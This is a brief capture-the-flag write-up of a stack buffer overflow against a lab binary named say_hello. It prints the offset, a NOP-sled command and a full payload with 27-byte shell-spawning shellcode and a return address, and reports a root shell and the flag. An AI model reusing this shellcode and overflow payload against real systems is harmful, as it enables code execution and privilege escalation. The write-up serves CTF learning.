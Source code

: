 # This writeup if from the GiraffeCTF which was called "PWN6".
 This task was quiet easy as finding where the intruction pointer was overwritten. The instruction pointer was hit at offset
216 bytes.
> ./say_hello $(python -c 'print "\x90"*189')
## After debugging i found where the start of the nopsled was in memory, i quickly looked a shellcode to use which spawns root.
The shellcode was 27 bytes. I calculated how much i had to cut the nopsled down i had to go by doing 216-27 which turned to 189 bytes.
## Now, Nopshell + shellcode + eip and the input looked like this:
> ./say_hello $(python -c 'print "\x90"*189+"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"+"\x70\xed\xff\xff\xff\x7f"')
 Executing it allowed me to open a file as root which contained the flag being
> "FLAG{WhoKilledUncleBen?}"
## Thanks for reading.
